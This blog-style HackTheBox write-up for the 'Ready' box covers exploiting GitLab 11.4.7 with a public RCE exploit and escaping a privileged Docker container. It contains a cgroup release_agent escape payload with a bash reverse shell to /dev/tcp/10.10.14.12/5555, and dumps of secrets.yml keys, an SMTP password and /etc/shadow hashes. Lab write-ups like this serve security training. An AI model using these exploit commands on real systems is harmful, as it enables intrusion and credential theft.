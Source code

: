```yaml
---
title: Ready
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-12 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, GitLab, SSRF Exploitation, CVE-2018-19571, A06:2021-Vulnerable And Outdated Components, Public Vulnerabilities, Docker, CRLF Exploitation, CVE-2018-19585, Clear Text Credentials, Containers, CVE Exploitation, Misconfiguration]
math: true
mermaid: true
image:
  src: /assets/images/aa562b6cefa1b9c561988d259c48de00c53431c1de9569b09c0879498438b597.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Ready is an easy box based on linux. It starts with vulnerable Gitlab version and ends with escaping docker container.**

# ENUMERATION
## NMAP

Let's start nmap scan:
```
luka@kali:~/htb/ready$ nmap -sC -sV -oN nmap 10.10.10.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-20 13:10 CET
Nmap scan report for 10.10.10.220
Host is up (0.57s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.63 seconds
```

## Enumerating GITLAB on port 5080
Checking the webserver on port 5080 we can see that there's Gitlab running. 

We can register and login:

![picture 13](/assets/images/38b0cfe53aac79d09f7e628ff84632d57b34c5dd8d21e85baee9af0cb64229c8.png)  

If we check the version, we can see that we're running the version 11.4.7

![picture 14](/assets/images/86c9e70b68c8e8a2051b20dc677eea1c2cba05b2060297a6846ae7f23a277622.png)

For which there's a CVE which is very convenient with an exploit which is very convenient: https://www.exploit-db.com/exploits/49263
```
	# Exploit Title: GitLab 11.4.7 Authenticated Remote Code Execution (No Interaction Required)
	# Date: 15th December 2020
	# Exploit Author: Mohin Paramasivam (Shad0wQu35t)
	# Software Link: https://about.gitlab.com/
	# POC: https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
	# Tested on: GitLab 11.4.7 CE
	# CVE : CVE-2018-19571 (SSRF),CVE-2018-19585 (CRLF)
```

For exploit to work, we need to change `gitlab_url` in the code. Everything else will be taken from arguments.

I also hardcoded `Y` at server prompt and `option 1`. I also hat to remove bytes `"b"` from payload.

![picture 15](/assets/images/3efbdd87f34a78d104f33a704623c1aa294a160c4143abfafbe76014f44078f4.png)  

Shell was downloaded.

Now hardcode `option 2` and run the payload again (listener on port 8888).

```
python3 exploit.py -U luka -P 'Pass_123!"§' -l 10.10.14.12 -p 8888
```

![picture 16](/assets/images/63058e37276d25f5061db6a1c14cee4e4f11eeb8b730dac18051646e780f6800.png)  

Shell was spawned.

# PRIVILEGE ESCALATION

## Finding low hanging fruits with git user. 
After getting on the system as `git` user `secrets.yml` was found!

```
git@gitlab:~/gitlab-rails/etc$ cat secrets.yml                                                     
cat secrets.yml                                                                                    
# This file is managed by gitlab-ctl. Manual changes will be        
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb  
# and run `sudo gitlab-ctl reconfigure`.                                                                                  
---                                                                                                
production:                                                                                        
  db_key_base: eaa32eb7018961f9b101a330b8a905b771973ece8667634e289a0383c2ecff650bb4e7b1a6034c066af2f37ea3ee103227655c33bc17c123c99f421ee0776429
  secret_key_base: b7c70c02d37e37b14572f5387919b00206d2916098e3c54147f9c762d6bef2788a82643d0c32ab1cdb315753d6a4e59271cddf9b41f37c814dd7d256b7a2f353
  otp_key_base: b30e7b1e7e65c31d70385c47bc5bf48cbe774e39492280df7428ce6f66bc53ec494d2fbcbf9b49ec204b3ba741261b43cdaf7a191932f13df1f5bd6018458e56
  openid_connect_signing_key: |                                                                    
    -----BEGIN RSA PRIVATE KEY-----                                                                
    MIIJKAIBAAKCAgEA2l/m01GZYRj9Iv5A49uAULFBomOnHxHnQ5ZvpUPRj1fMovoC
    dQBdEPdcB+KmsHKbtv21Ycfe8fK2RQpTZPq75AjQ37x63S/lpVEnF7kxcAAf0mRw
......
```

## Enumerating the system, finding a SMTP password

Root password was found:
```
./opt/backup/gitlab.rb:476:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

## Are we in Docker??
	
Let's check if we are in Container
```
cat /proc/1/cgroup
```

![picture 17](/assets/images/518162aca7d081da2053cf99b1b0db270d94ce6052b35b03f9199d68770c30c8.png)  

Obviously we are in privileged container. Let's check the `docker-compose.yml`, mind the `privileged: true`. 

```
$ cat /opt/backup/docker-compose.yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16

```

## Docker Escape
We can leverage following payload to escalate privileges
https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

```
mkdir /tmp/tmp2/cgrp && mount -t cgroup -o rdma cgroup /tmp/tmp2/cgrp && mkdir /tmp/tmp2/cgrp/x
echo 1 > /tmp/tmp2/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/tmp2/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.12/5555 0>&1"' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/tmp2/cgrp/x/cgroup.procs";
```

And we're root on the host machine!!

```
root@ready:/tmp# cat /etc/shadow | grep '\$'
cat /etc/shadow | grep '\$'
root:$6$6iCNjrc5M4h7KmBm$B.l0JheiUvsReXXIwMNIkebuk32EYFCs5pk4J9L8OoiD73IT5s639nPkncWI8R/5s9Vq9JvD2LAxMeQoBO9K6.:18452:0:99999:7:::
dude:$6$CspweLQq29lopA9a$tbyLbtD6CSjNMv2jSEaJ9xRQFBl.C26cLu6HtuofggWqlZZHWUQ7LD8dta.D/CvFZYGT2TSvk90i6YYWdbIm5/:18450:0:99999:7:::
```